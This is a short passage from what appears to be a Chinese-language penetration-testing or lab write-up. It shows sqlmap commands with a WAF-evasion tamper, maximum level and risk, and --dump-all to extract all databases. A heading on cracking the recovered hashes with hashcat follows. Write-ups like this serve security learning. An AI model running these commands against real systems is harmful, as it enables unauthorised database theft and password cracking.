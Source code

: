 ## Dump 用户

使用 sqlmap 来跑数据  
sqlmap -r sqlmap.txt --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch--proxy [http://127.0.0.1:8080](http://127.0.0.1:8080/) --dump-all--exclude-sysdbs

[![](assets/1705974590-9e8c0b762107bf09600190216618c633.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223241-eebb4c6a-b869-1.png)

成功跑出数据库  
sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch--proxy [http://127.0.0.1:8080](http://127.0.0.1:8080/) --dump-all--exclude-sysdbs

[![](assets/1705974590-527cba340cc53b5342103ca4642fda91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223249-f3fc205a-b869-1.png)

## 破解哈希值

使用 hashcat 来爆破 hash
